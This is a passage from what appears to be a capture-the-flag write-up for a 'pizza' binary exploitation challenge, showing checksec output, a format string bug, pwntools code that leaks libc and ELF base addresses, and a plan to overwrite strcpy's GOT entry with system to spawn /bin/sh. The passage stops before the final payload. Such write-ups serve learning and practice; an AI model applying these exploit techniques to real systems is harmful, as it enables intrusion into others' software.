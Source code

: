     scanf(" %c", &c);
    if (c != 'y') {
      break;
    }
  }
}
{% endhighlight %}

Theres a format string vulnerability when we enter a custom topping.

```python
└─$ checksec --file=pizza 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   44 Symbols        No    0               2               pizza
```

Since there is Partial RELRO, the first thing that came to my mind was a GOT overwrite attack. We will overwrite the GOT address of a function to system() address. Additionally, I assume that the libc for this challenge is the same as the previous challenge (pwn/sus) so I just copied it over.

For a GOT overwrite attack, we will need a leak to the elf base and libc. To do this, we will pass n "%p" to printf to leak addresses from the stack. Then, we can pass in "%1$p%2$p......$50$p" to continue leaking the next address in the stack up to %50$p (this means something like the 50th item on the stack). Eventually we will find a libc and elf address. In my case, I found a libc address at %5$p and an elf address at $49$p.

{% highlight python %}
format1 = "AAAA.%5$p"
format2 = ".%49$p"

custom(format1)
custom(format2)
custom("aaaa")

p.recvline()
top1 = p.recvline().strip().decode().split(".")
top2 = p.recvline().strip().decode().split(".")
top3 = p.recvline().strip()

leak = int(top1[-1], 16)
log.info(f"libc leak : {hex(leak)}")
libc.address = leak - (0x7f2a1da6ba80-0x7f2a1d899000)
log.info(f"libc base : {hex(libc.address)}")

leak = int(top2[-1], 16)
log.info(f"elf leak : {hex(leak)}")
exe.address = leak - (0x56113f613189 - 0x0056113f612000)
log.info(f"elf base : {hex(exe.address)}")
{% endhighlight %}

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/4d593224-9392-4a95-ba0a-9c2694b22e7d)

Then, we need to look for a good target to overwrite its GOT into system. strcpy() looks like a good target because I can enter /bin/sh into the topping and call strcpy() on /bin/sh which is the same as system("/bin/sh")
